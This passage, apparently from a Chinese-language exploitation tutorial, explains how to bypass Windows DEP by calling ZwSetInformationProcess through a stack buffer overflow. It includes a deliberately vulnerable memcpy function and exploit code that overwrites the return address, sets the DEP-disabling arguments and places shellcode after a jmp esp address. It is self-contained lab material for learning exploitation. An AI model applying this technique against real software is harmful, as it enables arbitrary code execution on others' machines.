 这些标识中前 4 个 bit 与 DEP 相关，当前进程 DEP 开启时 ExecuteDisable 位被置 1，当进程 DEP 关闭时 ExecuteEnable 位被置 1，DisableThunkEmulation 是为了兼容 ATL 程序设置的，Permanent 被置 1 后表示这些标志不能再被修改。真正影响 DEP 状态的是前两位，所以只需要将 Flasg 设置为 0x02 就可以将 ExecuteEnable 置 1。  

想要对该位进行设置，可以使用 ZwSetInformationProcess 函数，该函数定义如下：

```
NTSTATUS 
WINAPI 
ZwSetInformationProcess(__in HANDLE ProcessHandle,
                          __in PROCESSINFOCLASS ProcessInformationClass,
                          __out PVOID ProcessInformation,
                          __in ULONG ProcessInformationLength);

```

<table border="1"><tbody><tr><td valign="top"><strong>参数</strong></td><td valign="top"><strong>含义</strong></td></tr><tr><td valign="top">ProcessHandle</td><td valign="top">进程句柄</td></tr><tr><td valign="top">ProcessInformation</td><td valign="top">进程信息类；当指定为 ProcessExecuteFlags(0x22) 的时候表示要设置进程的 DEP 属性</td></tr><tr><td valign="top">ProcessInformation</td><td valign="top">指向保存要设置属性的地址，当设置为 0x2 且第二个参数为 0x22 的时候就可以关闭 DEP</td></tr><tr><td valign="top">ProcessInformationLength</td><td valign="top">第三个参数的长度</td></tr></tbody></table>

由此不难知道，如果利用该函数关闭 DEP 属性，接下来只需要再系统中找到该函数，覆盖的返回地址设为该函数地址，设置好参数的值以及 jmp esp 的地址就可以实现绕过 DEP。由于的 exp 有 00，如果使用 strcpy 会产生截断，所以改用下面的方式来产生漏洞：  

```
char g_szExploit[100] = { 0 };
 
void test()
{
    char szStr[0x8] = { 0 };
     
    memcpy(szStr, g_szExploit, sizeof(g_szExploit));
}

```

漏洞利用代码，则如下：  

```
int main()
{
    DWORD dwFuncAddr = 0x7C92E62D;                                           // ZwSetInformationProcess函数地址
    DWORD dwRetAddr = 0x7C961EED;                                            // jmp esp地址
 
    LoadLibrary("user32.dll");                                              // MessageBox函数在该中，需要将其导入才可以调用
     
    *(PDWORD)g_szExploit = 0x2;                                               // 参数三的值
    memset(g_szExploit + 4, 'A', 0x8);
    *(PDWORD)(g_szExploit + 0xC) = dwFuncAddr;                              // 跳转到ZwSetInformationProcess函数地址
    *(PDWORD)(g_szExploit + 0x10) = dwRetAddr;                              // 覆盖返回地址(jmp esp)
    *(PDWORD)(g_szExploit + 0x14) = -1;                                     // 4个参数
    *(PDWORD)(g_szExploit + 0x18) = 0x22;
    *(PDWORD)(g_szExploit + 0x1C) = (DWORD)g_szExploit;                        
    *(PDWORD)(g_szExploit + 0x20) = 0x4;                           
    memcpy(g_szExploit + 0x24, g_szShellCode, sizeof(g_szShellCode));       // 保存ShellCode
 
    test();
 
    system("pause");
 
    return 0;
}

```